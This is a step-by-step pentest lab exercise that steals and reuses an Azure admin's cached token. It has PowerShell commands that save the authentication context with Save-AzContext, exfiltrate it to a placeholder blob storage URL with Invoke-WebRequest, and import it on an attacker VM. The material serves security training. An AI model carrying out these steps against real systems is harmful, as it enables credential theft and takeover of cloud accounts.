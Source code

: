


## Hands-on exercise – stealing and reusing tokens from an authenticated Azure admin system
In this exercise, we will be exporting cached tokens from the system of an authenticated Azure admin user and reusing those tokens on our pentest VM. Here are the tasks that we will complete in this exercise:

### Task 1 - Review the information for this exercise

1. On your pentest VM, browse to the following path **`C:\Users\pentestadmin\Desktop\ExerciseFiles\Modules\03`** and open the file named **`admin-token-theft-info.txt`** for later reference. There are six values that you will find in the file:
   * **Azure Admin User - Username**: This is the Azure administrator username whose token will be stolen from a workstation.
   * **Azure Admin User - Password**: This is the password of the Azure administrator user whose credential will be stolen.
   * **VM Public IP**: The public IP of the Admin workstation VM that the token will be stolen from.
   * **VM Admin Username**: The local user that you will use to authenticate to the workstation.
   * **VM Admin User Password**: The password of the local user that you will use to authenticate to the workstation.
   * **Exfiltration Storage Location**: The blob container that you will exfiltrate the stolen credential to and download it from for reuse from your pentest VM.

### Task 2 - Connect to the victim's PC and exfiltrate the token (Windows)
1. Open an RDP client on your PC and connect to the **`VM Public IP`** listed in your exercise file. When prompted to authenticate, use the **`VM Admin Username`** value as the username and the **`VM Admin User Password`** value as the password.

2. Within the RDP session to VM, open a PowerShell console and authenticate to Azure as the victim admin using the following commands:
   * Replace the placeholders for **`AZURE_ADMIN_USER_PASSWORD`** and **`AZURE_ADMIN_USER_USERNAME`** with the actual values from your exercise file.
```
$SecurePassword = ConvertTo-SecureString "AZURE_ADMIN_USER_PASSWORD" -AsPlainText -Force

$Credential = New-Object System.Management.Automation.PSCredential ("AZURE_ADMIN_USER_USERNAME", $SecurePassword)

Connect-AzAccount -Credential $Credential
```

3. Verify authentication using the following command:
* The command lists all the resource groups in the victim's Azure environment. If you get an error, verify that you have the correct username and password.
```
Get-AzResourceGroup
```

4. At this point, we can act as an attacker with an active session on the system and save the current context for exfiltration to another system for reuse.

5. Save the current authentication context and verify that the context has been saved using the following commands:
```
Save-AzContext -Path azureprofile.json
Get-ChildItem azureprofile.json
```

6. Compress the saved authentication context and verify using the following commands:
```
Compress-Archive -LiteralPath azureprofile.json -DestinationPath azureprofile.zip
Get-ChildItem azureprofile.zip
```

7. Exfiltrate the compressed authentication context to the blob container listed in your exercise file, using the following command. Replace the placeholder with the value of Exfiltration Storage Location. Ensure that there are no line breaks before pasting this. You should get an HTTP 201 response:
```
Invoke-WebRequest -Method 'PUT' -Uri 'TOKEN_EXFILTRATION_STORAGE_LOCATION' -InFile 'azureprofile.zip' -Headers @{"x-ms-blob-type"="BlockBlob"} -UseBasicParsing
```

### Task 3 - Reuse the stolen token from your pentest VM
* In this task, we will used the exfiltrated context to gain access as the user in another environment

1. Switch back to your pentest VM, open a PowerShell console. 

2. Verify that you currently do not have a connection to the victim's Azure environment by using the following commands. You should get an error message. The first command **`Disconnect-AzAccount`** logs you out of your own Azure environment if you have authenticated previously.
```
Disconnect-AzAccount 

Get-AzResourceGroup
```

3. Download and verify the exfiltrated context file using the following command. Replace the placeholder with the value of Exfiltration Storage Location that you copied from the script's output:
```
Invoke-WebRequest -Uri "TOKEN_EXFILTRATION_STORAGE_LOCATION" -OutFile azureprofile.zip

Get-ChildItem azureprofile.zip
```
    
4. Extract the downloaded file using the following command and verify the extracted file:
```
7z e azureprofile.zip
Get-ChildItem -Filter azureprofile.*
```

5. Restore the authentication context to your pentest VM using the following command:
```
Import-AzContext -Path .\azureprofile.json
```

6. Verify that the context has successfully been applied to your pentest VM by running commands with the stolen admin authentication context. At this point, you have validated that an authentication context can be stolen from an administrator's system, exported, and reused from an attacker's system:
```
Get-AzResourceGroup
```

